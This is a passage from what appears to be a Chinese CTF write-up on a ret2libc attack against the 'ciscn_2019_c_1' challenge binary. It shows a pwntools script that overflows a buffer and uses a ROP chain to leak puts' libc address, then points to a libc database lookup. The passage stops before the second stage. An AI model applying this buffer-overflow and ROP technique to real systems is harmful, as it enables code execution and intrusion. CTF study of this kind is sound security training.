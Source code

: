 开始构建exploit1:

~~~python
from pwn import *

p = remote("node5.buuoj.cn","29642")

elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x4005b9
pop_rdi_addr = 0x400c83

payload = b'\x00' + b'a'*(0x50+0x7) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)

puts_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(puts_addr))
~~~

运行后得到：

![ret2libc-libc](./assets/ret2libc-libc.png)

通过[libc database search](https://libc.blukat.me/)查询libc版本
